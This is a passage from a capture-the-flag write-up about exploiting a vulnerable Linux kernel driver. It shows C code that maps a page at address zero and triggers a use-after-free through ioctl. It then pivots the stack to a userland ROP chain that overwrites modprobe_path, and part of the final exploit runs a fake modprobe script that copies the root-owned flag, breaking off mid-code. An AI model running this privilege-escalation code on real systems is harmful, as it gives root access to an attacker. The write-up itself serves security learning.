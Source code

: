 - mmap_min_addr: mmap_min_addr is always > 0 (it’s 0x10000 on my machine). which means that userland processes can not map a page into 0x0 address preventing the kernel null byte deference. but in this chall it’s set to 0 by `echo 0 > /proc/sys/vm/mmap_min_addr` .
- smap: prevents the kernel from accessing userland memory.

so now if we mmap a page at 0x0 and cause the vulnerability we should be able to direct execution anywhere we want by writing the desired address at 0x0.

```c
 char* addr = mmap(0x0, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0x0);
 // MAP_FIXED is required so it would map the page to 0x0.
 *(unsigned long*)0x0=0x41414141;
 
int fd1 = open("/dev/chal", 0x2);
int fd2 = open("/dev/chal", 0x2);
close(fd1);
ioctl(fd1, 0x1, 0x0);
```

by running this, we get:

![Screenshot from 2025-02-23 11-41-40.png](/images/Screenshot_from_2025-02-23_11-41-40.png)

you can see that it faulted at 0x41414141

since smap is disabled we will simply make a rop chain (kaslr is disabled, no need for leak) in userland memory and pivot to it (this surprisingly took a long time to do).

the gadget i chose is: `0xffffffff81037fbf: mov esp, 0x39e8825b; ret` 

i used [kropr](https://github.com/zolutal/kropr) to search for this gadget, because ROPGadget gave me gadgets from non executable memory.

after this, i mmap’ed `0x39e88000` and wrote my rop chain in there.

the rop chain overwrites modprobe path to point to `/home/user/pwnaa` .

here is the final exploit:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
       #include <fcntl.h>
#include <sys/ioctl.h>
#include <assert.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>

void sigsegv_handler(int sig) {
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /root/flag /home/user/flag\nchmod 777 /home/user/flag' > /home/user/pwnaa");
    system("chmod +x /home/user/pwnaa");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/user/dummy");
    system("chmod +x /home/user/dummy");

    puts("[*] Run unknown file");
    system("/home/user/dummy");

    puts("[*] Hopefully flag is readable");
```
